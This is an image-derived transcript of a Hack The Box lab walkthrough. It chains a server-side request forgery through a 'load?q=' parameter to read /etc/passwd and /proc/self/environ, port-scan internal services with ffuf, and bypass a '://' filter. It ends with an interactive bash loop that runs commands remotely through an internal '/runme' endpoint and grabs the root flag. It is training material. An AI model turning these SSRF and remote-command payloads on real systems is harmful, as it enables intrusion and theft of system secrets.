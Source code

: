```bash
#Retrieving a remote file through the target application - HTTP Schema
curl -i -s "http://10.129.221.155/load?q=http://10.10.14.52:9090/index.html"
#Retrieving a local file through the target application - File Schema
curl -i -s "http://10.129.221.155/load?q=file:///etc/passwd"
```

We can use a tool such as ffuf to enumerate these web applications

```bash
for port in {1..65535};do echo $port >> ports.txt;done
curl -i -s "http://10.129.221.155/load?q=http://127.0.0.1:1"
ffuf -w ports.txt:FUZZ -u "http://10.129.221.155/load?q=http://127.0.0.1:FUZZ" -fs 30
#80 [Status: 200, Size: 153, Words: 12, Lines: 7, Duration: 271ms]
#5000 [Status: 200, Size: 64, Words: 3, Lines: 1, Duration: 258ms]
curl -i -s "http://10.129.221.155/load?q=http://127.0.0.1:5000"
#cURL - Interacting with the Target
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=index.html"
#cURL - Interacting with the Target
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"
#We have received an unknown url type error message. It seems the web application is removing :// from our request. Let's try to overcome this situation by modifying the URL.
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"
ffuf -w ports.txt:FUZZ -u "http://10.129.221.155/load?q=http://internal.app.local/load?q=http::////127.0.0.1:FUZZ" -fr 'Errno[[:blank:]]111'
#80 [Status: 200, Size: 155, Words: 5, Lines: 7, Duration: 280ms]
#5000 [Status: 200, Size: 385, Words: 65, Lines: 8, Duration: 270ms]
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
curl -i -s "http://10.129.221.155/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"
#to run complicated commands need to url encode
sudo apt-get install jq
#Automate executing commands RCE
function rce() {
while true; do
echo -n "# "; read cmd
ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
curl -s -o - "http://10.129.221.155/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
echo ""
done
}

rce
whoami
find / -name *flag* 2>/dev/null
cat /root/flag.txt
HTB{55rf_2_rc3}
```

